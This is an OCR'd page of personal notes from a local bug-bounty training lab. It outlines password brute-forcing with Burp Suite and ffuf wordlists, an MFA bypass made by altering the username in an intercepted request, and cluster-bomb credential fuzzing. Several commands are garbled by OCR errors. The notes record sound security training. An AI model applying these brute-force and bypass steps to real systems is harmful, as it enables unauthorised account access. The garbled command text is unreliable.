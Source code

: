 **TCM Bog Bounty**

# TCM Bug Bounty

## Scope

> [[http://localhost:80]{.underline}](http://localhost/)
>
> **By** : Kavishvar
>
> *12/07/2025*

# 1.Authentication

## Authentication 0x01

a)  Fuzz using Burp suite and Secrists.(/usr/share/seclists/Passwords)

b)  Copy request and use FUFF ***ffuf -request req.txt -request-proto
    http -w
    /usr/share/seclists/Passwords/xato-net-10million-passwords-10000.txt
    -fs 1814***

## Authentication 0x02

We get a MEA code (Short code and user name submitted again)

Change user name in burp suite and farword it .

## Authentication 0x03

> localhost/init.php if the lab breaks as there are rules brute Forse
> them.
>
> Use cluster bomber in burp. user:admin pass:letmein.
>
> ***ffuf -request req2.txt -request-proto http -mode clusterbomd -w***
>
> ***/use/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER
> -w pass.txt:PUZZPASS***\*

We can use the authors wiki :

**[htt]{.underline}**

[**p**](https://appsecexplained.gitbook.io/appsecexplained/)

**[s://ap]{.underline}**

[**p**](https://appsecexplained.gitbook.io/appsecexplained/)

**[secex]{.underline}**

